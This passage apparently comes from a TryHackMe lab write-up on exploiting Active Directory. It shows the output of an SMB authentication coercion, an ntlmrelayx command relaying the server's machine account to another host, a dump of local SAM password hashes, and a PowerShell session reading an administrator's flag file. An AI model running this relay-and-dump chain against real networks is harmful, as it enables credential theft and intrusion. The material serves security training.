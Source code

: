 TargetServer: \\THMSERVER2.za.tryhackme.loc, CaptureServer: \\10.50.57.67
Target server attempted authentication and got an access denied.  If coercing authentication to 
an NTLM challenge-response capture tool(e.g. responder/inveigh/MSF SMB capture), this is expecte
d and indicates the coerced authentication worked.

```

3. ntlmrelayx收到smb流量

```
┌──(root💀kali)-[~/tryhackme/ExploitingActiveDirectory]
└─# python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -t smb://10.200.60.201 -smb2support -debug
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[+] Impacket Library Installation Path: /usr/local/lib/python3.9/dist-packages/impacket
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMTP loaded..
[+] Protocol Attack HTTP loaded..
[+] Protocol Attack HTTPS loaded..
[+] Protocol Attack MSSQL loaded..
[+] Protocol Attack LDAP loaded..
[+] Protocol Attack LDAPS loaded..
[+] Protocol Attack DCSYNC loaded..
[+] Protocol Attack IMAP loaded..
[+] Protocol Attack IMAPS loaded..
[+] Protocol Attack SMB loaded..
[+] Protocol Attack RPC loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server
[*] Setting up WCF Server

[*] Servers started, waiting for connections
[*] SMBD-Thread-4: Connection from ZA/THMSERVER2$@10.200.83.202 controlled, attacking target smb://10.200.60.201
[*] Authenticating against smb://10.200.60.201 as ZA/THMSERVER2$ SUCCEED
[+] No more targets for user ZA/THMSERVER2$
[*] SMBD-Thread-4: Connection from ZA/THMSERVER2$@10.200.83.202 controlled, but there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[+] Retrieving class info for JD
[+] Retrieving class info for Skew1
[+] Retrieving class info for GBG
[+] Retrieving class info for Data
[*] Target system bootKey: 0x4e05e7ea4fdddde75aa56010474948dc
[+] Saving remote SAM database
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
[+] Calculating HashedBootKey from SAM
[+] NewStyle hashes is: True
ServerAdmin:500:aad3b435b51404eeaad3b435b51404ee:3279a0c6dfe15dc3fb6e9c26dd9b066c:::
[+] NewStyle hashes is: True
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] NewStyle hashes is: True
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> cd c:/users/administrator/desktop
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> ls
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> type flag2.txt